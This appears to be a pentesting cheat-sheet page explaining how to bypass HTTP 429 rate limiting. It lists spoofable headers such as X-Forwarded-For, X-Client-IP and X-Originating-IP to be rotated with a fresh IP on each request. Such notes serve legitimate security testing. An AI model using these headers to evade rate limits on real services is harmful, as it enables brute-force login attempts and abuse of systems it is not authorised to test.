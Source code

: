 ```yaml
---
title: HTTP Rate Limit Bypass
description: The 429 “Too Many Requests” response in HTTP header occurs when the client has sent too many requests in a given amount of time (rate limiting). That is because the server limits the number of requests. However, we may be able to bypass this restriction.
tags:
    - Web
refs:
    - https://infosecwriteups.com/bypassing-rate-limit-like-a-pro-5f3e40250d3c
date: 2023-03-07
draft: false
---
```


## Bypass

We may be able to bypass the rate limiting by adding one of the following headers and change the IP per request.  
Sometimes, we need to add multiple headers.

```bash
X-Forwarded: <IP>
X-Forwarded-For: <IP>
X-Forwarded-Host: <IP>
X-Client-IP: <IP>
X-Remote-IP: <IP>
X-Remote-Addr: <IP>
X-Host: <IP>
X-Originating-IP: <IP>
```

